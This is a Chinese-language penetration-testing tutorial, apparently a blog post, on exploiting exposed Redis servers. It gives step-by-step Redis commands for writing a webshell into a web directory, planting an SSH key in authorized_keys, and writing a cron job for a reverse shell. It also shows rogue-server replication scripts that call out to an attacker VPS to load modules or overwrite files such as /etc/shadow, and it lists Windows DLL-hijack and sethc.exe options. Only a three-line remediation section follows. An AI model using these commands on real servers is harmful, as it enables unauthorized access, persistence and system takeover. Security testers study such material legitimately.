





# [](#redis-%E5%9C%A8%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E4%B8%AD%E5%B8%B8%E8%A7%81%E7%9A%84%E5%88%A9%E7%94%A8%E6%96%B9%E5%BC%8F)Redis 在渗透测试中常见的利用方式

> 本文主要以 redis 未授权或已知 redis 口令为前提进行漏洞利用



## [](#1-%E5%86%99%E5%85%A5-webshell)1 写入 webshell

条件：

-   已知 web 目录绝对路径
-   拥有该目录下的可写权限

查看所有键，创建新键，键值为 webshell，这里以写入 phpinfo 进行一个演示。

因为创建新键赋键值会把原来的键值覆盖，所以需要在赋值的时候需要查看所有的键，然后选择一个没有的键创建赋值。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```bash<br>keys *<br>set x "\n\n<?php pnpinfo();?>\n"<br>get x<br>``` |



查看 redis 数据库配置信息，因为我们写 Webshell 会修改 `dir` 和 `dbfilename`，所以这里查看配置信息主要记下原来的值，好在写入后修改回来。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>config get *<br>``` |


设置 webshell 输出目录和文件名，然后写入 Webshell。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```bash<br>config set dir /var/www    # 设置文件写入目录<br>config set dbfilename 1.php   # 设置写入文件名<br>save # 保存<br>``` |


最后，再还原数据库配置。

## [](#2-%E5%86%99%E5%85%A5-ssh-%E5%85%AC%E9%92%A5)2 写入 ssh 公钥

条件：

-   已知启动服务的用户
-   拥有 .ssh 目录
-   允许使用基于密钥认证的方式登陆

### [](#21-%E7%94%9F%E6%88%90%E5%85%AC%E7%A7%81%E9%92%A5%E5%AF%B9)2.1 生成公私钥对

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>ssh-keygen -t rsa    # 生成公钥和私钥<br>``` |

### [](#22-%E5%88%A9%E7%94%A8-redis-config-%E5%86%99%E6%96%87%E4%BB%B6)2.2 利用 redis config 写文件

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>``` | ```bash<br>set x "\n\n公钥内容\n"<br>config set dir /home/user/.ssh<br>config set dbfilename authorized_keys<br>save<br>``` |

### [](#23-%E5%88%A9%E7%94%A8%E5%85%AC%E7%A7%81%E9%92%A5%E5%AF%B9%E7%99%BB%E5%BD%95)2.3 利用公私钥对登录

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>ssh -i id_rsa user@ip<br>``` |

## [](#3-%E5%86%99%E5%AE%9A%E6%97%B6%E4%BB%BB%E5%8A%A1%E5%8F%8D%E5%BC%B9-shell)3 写定时任务反弹 shell

条件：

-   拥有计划任务目录写权限
-   目标启动计划服务

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>``` | ```bash<br>keys *    查看所有键<br>set x "\n\n计划任务内容\n\n"    <br>config get *    <br>config set dir /var/spool/cron    <br>config set dbfilename root    <br>save    保存，完成文件写入<br>del x    删除创建的x键<br>``` |

## [](#4-%E4%B8%BB%E4%BB%8E%E5%A4%8D%E5%88%B6)4 主从复制

### [](#41-%E5%8A%A0%E8%BD%BD%E6%89%A9%E5%B1%95%E6%A8%A1%E5%9D%97%E6%89%A7%E8%A1%8C%E7%B3%BB%E7%BB%9F%E5%91%BD%E4%BB%A4)4.1 加载扩展模块执行系统命令

具体的原理在之前漏洞复现的文章中已经解释过。

脚本地址：[https://github.com/Dliv3/redis-rogue-server](https://github.com/Dliv3/redis-rogue-server)

主动连接模式：

参数说明

-   `--rpasswd` 如果目标 Redis 服务开启了认证功能，可以通过该选项指定密码
-   `--rhost` 目标 redis 服务 IP
-   `--rport` 目标 redis 服务端口，默认为 6379
-   `--lhost` vps 的外网 IP 地址
-   `--lport` vps 监控的端口，默认为 21000

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>python3 redis-rogue-server.py --rhost <target address> --rport <target port> --lhost <vps address> --lport <vps port><br>``` |



被动连接模式：

适用于目标Redis服务处于内网的情况

-   通过 SSRF 攻击 Redis
-   内网 Redis 未授权访问/已知 Redis 口令，Redis 需要反向连接 redis rogue server

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>python3 redis-rogue-server.py --server-only<br>``` |

### [](#42-%E4%B8%BB%E4%BB%8E%E5%A4%8D%E5%88%B6%E5%86%99%E5%85%A5%E7%BA%AF%E5%87%80%E6%96%87%E4%BB%B6)4.2 主从复制写入纯净文件

在 linux 下，可以利用 SYNC 主从同步，来直接写入无杂质的文件，脚本如下：

[https://github.com/r35tart/RedisWriteFile](https://github.com/r35tart/RedisWriteFile)

此脚本是通过 `Redis` 主从写出无损文件，可用于 `Windows` 平台下写出无损的 `EXE`、`DLL`、 `LNK` 和 `Linux` 下的 `SO` 等二进制文件

也可以用无杂质覆写 `Linux` 中的 `/etc/shadow`

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>python3 RedisWriteFile.py --rhost 172.17.0.2 --rport 6379 --lhost 172.17.0.1 --lport 4444 --rpath "/var/www" --rfile "test.php" --lfile "./phpinfo.php"<br>``` |





上述方法主要是针对 linux，当 windows 上未开启 web 服务时，该如何 getshell？

下面介绍下 redis 在 windows 下的常见打法：

1.  系统 `DLL` 劫持 （目标重启或注销）
2.  针对特定软件的 `DLL` 劫持（目标一次点击）
3.  覆写目标的快捷方式 （目标一次点击）
4.  覆写特定软件的配置文件达到提权目的 （目标无需点击或一次点击）
5.  覆写 `sethc.exe` 等文件 （攻击方一次触发）

参考：[http://r3start.net/index.php/2020/05/25/717](http://r3start.net/index.php/2020/05/25/717)

## [](#5-%E6%BC%8F%E6%B4%9E%E4%BF%AE%E5%A4%8D)5 漏洞修复

-   设置密码认证
-   尽量以低权限来运行 Redis 服务
-   限制登录 IP
